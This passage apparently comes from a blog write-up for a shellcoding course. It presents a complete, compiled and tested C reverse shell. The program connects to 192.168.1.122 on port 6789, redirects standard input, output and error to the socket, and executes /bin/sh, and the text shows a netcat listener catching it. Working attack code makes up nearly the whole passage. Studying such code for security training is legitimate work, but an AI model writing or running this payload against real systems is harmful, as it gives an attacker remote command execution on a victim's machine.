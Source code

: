 I wrote the following C program that creates this reverse shell and compiled and ran it to confirm it functions properly.

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define NULL 0

int socket(int domain, int type, int protocol);
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
int dup2(int oldfd, int newfd);
int execve(const char *filename, char *const argv[], char *const envp[]);
int close(int fd);

int main() {
    char* address = "192.168.1.122";
    int port = 6789;

    /* this creates a new socket but it has no address assigned to it yet */
    int sockfd = socket(AF_INET /* 2 */, SOCK_STREAM /* 1 */, 0);

    /* create sockaddr_in structure for use with connect function */
    struct sockaddr_in sock_in;
    sock_in.sin_family = AF_INET;
    sock_in.sin_addr.s_addr = inet_addr(address);
    sock_in.sin_port = htons(port);

    /* perform connect to target IP address and port */
    connect(sockfd, (struct sockaddr*)&sock_in, sizeof(struct sockaddr_in));

    /* duplicate file descriptors for STDIN/STDOUT/STDERR */
    for (int n = 0; n <= 2; ++n) {
        dup2(sockfd, n);
    }

    /* execute /bin/sh */
    execve("/bin/sh", NULL, NULL);

    close(sockfd);

    return 0;
}
```

**Using netcat to listen on port 6789**<br/>
<img src="{{ site.url }}/assets/img/slae32/02-01.png"/>

**Building and running reverse shell**<br/>
<img src="{{ site.url }}/assets/img/slae32/02-02.png"/>
